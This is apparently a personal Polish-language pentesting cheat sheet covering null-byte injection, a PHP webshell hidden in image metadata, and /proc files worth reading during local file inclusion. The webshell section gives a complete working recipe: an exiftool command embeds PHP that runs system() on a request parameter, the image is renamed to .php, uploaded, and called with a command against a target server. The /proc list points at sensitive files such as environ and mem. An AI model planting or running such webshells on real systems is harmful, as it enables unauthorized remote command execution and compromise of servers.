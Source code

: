 # dodanie dodatkowego adresu ip do interfejsu
https://ostechnix.com/how-to-assign-multiple-ip-addresses-to-single-network-card-in-linux/

# Null-byte injection
https://www.thehacker.recipes/web/inputs/null-byte-injection
Null byte is a bypass technique for sending data that would be filtered otherwise. It relies on injecting the null byte characters (%00, \x00) in the supplied data. Its role is to terminate a string.

# PHP Webshell używając obrazu
https://yolospacehacker.com/hackersguide/toolbox.php?id=imgwebshell

https://github.com/F1uffyGoat/php-cmd-exec-webshell/blob/master/exiftool%20code
```bash
# dodaje webshell do atrybutu DocumentName obrazu image.jpg
# webshell to /usr/share/webshells/php/simple-backdoor.php 
exiftool -DocumentName="<h1>KuceK<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.jpg

# zmiana rozszerzenia żeby został wykonany przez silnik php
mv image.jpg image.php

#upload pliku na webserwer

# wykorzystanie webshella
https://atakowany_serwer.com/image.php?cmd=id
```
# system plików /proc
informacje na temat procesu, przydatne podczas LFI / Directory Trawersal  
`/proc/[ID] dla siebie to /proc/self`   
https://docs.kernel.org/filesystems/proc.html  
https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html

```bash
/proc/self/...

clear_refs
cmdline
cpu
cwd
environ
exe
fd
maps
mem
root
stat
statm
status
wchan
pagemap
stack
smaps
smaps_rollup
numa_maps
```
# skaner procesów wykorzystujący /proc
```bash
```